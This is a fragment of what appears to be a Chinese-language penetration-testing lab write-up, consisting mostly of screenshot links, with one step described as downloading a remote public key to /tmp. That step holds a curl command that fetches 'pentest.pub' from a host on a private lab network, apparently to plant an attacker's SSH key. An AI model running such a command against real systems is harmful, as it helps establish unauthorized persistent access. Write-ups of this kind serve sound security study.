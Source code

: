 ![](/medias/Scanner/9.png)


下载远程公钥到tmp目录

```bash
curl http://192.168.56.1/pentest.pub -o /tmp/1.pub
```

![](/medias/Scanner/10.png)
